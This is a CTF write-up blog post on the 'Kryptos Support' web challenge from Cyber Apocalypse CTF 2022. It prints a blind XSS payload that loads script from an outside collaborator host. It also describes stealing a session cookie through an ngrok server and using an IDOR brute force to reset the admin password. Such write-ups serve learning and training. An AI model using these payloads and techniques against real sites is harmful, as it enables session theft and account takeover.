```yaml
---
layout: distill
published: true
title: Web - Kryptos Support Writeup
date: 2022-05-25 11:09:00+0700
description: Writeup for Kryptos Support Challenge. Cyber Apocalypse CTF 2022 - Intergalactic Chase
tags: ctf
# tags: distill formatting
categories: write-ups
thumbnail: assets/img/cyber-apocalypse-ctf-2022/kryptos-1.png # change this
giscus_comments: true
related_posts: true
featured: true

authors:
  - name: Dwiki Kusuma
    url: "https://twitter.com/qlkwej"
    affiliations:
      name: qlkwej
toc:
  - name: Challenge Description
  - name: Problem
  - name: Attack vectors
    subsections:
      - name: Checking the ticket creating process
  - name: Solution
  - name: Lesson Learned
    subsections:
      - name: Login using default password
      - name: Bypass client-side validation

---
```



{% details Disclaimer %}
I am not a CTF addict nor maniac, I do CTF for fun and learning purpose. 
So, if you are looking for a writeup that is very detailed and easy to understand, I suggest you to find another writeup. 

This writeup is just a note for myself and maybe for someone who is looking for a hint to solve the challenge.
Feedback /  comments / PRs are welcome :)
{% enddetails %}


## Challenge Description

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-1.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Upon checking the challenge description, we are given a short description about the challenge.

> The secret vault used by the longhir's planet council, Kryptos, contains some very sensitive state secret that Virgil adn Ramona are after to prove injustice performed by the commision. Ulysses performed an initial recon at their request and found a support portal for the vault.
Can you take a look if you can inflitrate this system? 

Let start the challenge by visiting the given link.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-2.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
*** 

## Probem

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-3.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
The application is a reporting website that allows user to report a problem. There is a keyword `an admin will review your ticket shortly`.
So, I assume there is a cronjob that run behind the scene to check the ticket and send the report to the admin.

***

## Attack vectors
Let's do basic recon to get more information about the application. I use gobuster<d-footnote>https://github.com/OJ/gobuster</d-footnote> for this purpuse and found the login directory.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-5.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

So we have two piece of puzzle as a `hints`, which was:
1. The admin will review the ticket shortly
2. The login page

The best case scenario is the admin will review the ticket (which contaions blind XSS or CSRF vulnerability) and login to the application. So, we can login to the dashboard (maybe).
But the question is, where is the starting point?

### Checking the ticket creating process
Let's create a ticket and see what happen behind the scene. I use burp suite to intercept the request and send it to repeater. 

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-4.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The request is a POST request with a JSON body to `POST /api/tickets/add`. The body contains a `message`  of the ticket, and it returns a response which indicates the admin will review our message shortly.

Okay, this is maybe the starting point. Let's try to inject a XSS payload to the message and see what happen.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-8.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I use a vanilla javascript payload with the burpsuite collabolator URL as the endpoint. The payload is `"><script src="https://collabolator/test.js"></script>`.

I receive a DNS and HTTP request from the application server to the collabolator server. So, the application is vulnerable to blind XSS.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-7.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The next step is to steal the cookie if it's using a cookie based authentication using XMLHttpRequest <d-footnote>https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials</d-footnote>. 

I create a dummy server using ngrok <d-footnote>https://ngrok.com/</d-footnote> to host the javascript exploit and use it to receive the request from the application server.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-10.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I receive a request from the application server and it contains a cookie. So, the application is using a cookie based authentication. Because if it's using a header based authentication, the exploit won't work.

***


## Solution

Checking the session cookie format, it is a JWT token. So, we can decode the token and see what is inside the token.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-11.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Based on the `payload data` it is the `moderator` session. But why not `admin` ? Perhaps there still one missing piece, but will keep it for  observation later.

Use the session cookie from the previous step to login to the application. I use the `Cookie Editor` extension <d-footnote> https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/ </d-footnote>for firefox to change the cookie value.

I can login to the application and see the dashboard. But, there is no flag in the dashboard. So, I assume the flag is in the admin dashboard.
I check all the feature in `moderator` dashboard and found a `change password` feature which is vulnerable to IDOR.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-12.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-13.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>


When I put the new password, it will send a POST request to `POST /api/users/update` with a JSON body. The body contains a `password` and `uid` field. The IDOR vulnearbility was in `uid`. IF we can change the `uid` value to the `uid` own by the `admin` we can change the admin password. Since it's a increamental number, so we can bruteforce it from 001-999 _(the current user is moderator with `uid` 100 so admin must be between that range)_.

After several iteration, we found the admin `uid` it is `uid: 001`
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-14.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Change the admin password on the `change password` feature and login to the admin dashboard. The flag is in the admin dashboard.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-15.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

```
  HTB{x55_4nd_id0rs_ar3_fun!!}
```

***

## Lesson Learned

I learn several things from this challenge:

### Login using default password
The easiest way to login to the application is to use the default password. I try to use `admin:admin` but it won't work. But, it's not a bad idea to try the default password first, because in realworld this scenario is still happen.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-6.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

### Bypass client-side validation

At first, I check the client-side login validation. Whether it using a weak validation and I can bypass the flow. But, turns out it's a rabbit hole.
It's only give us information if the login were successfull, it will redirected to `/tickets` page

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-9.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>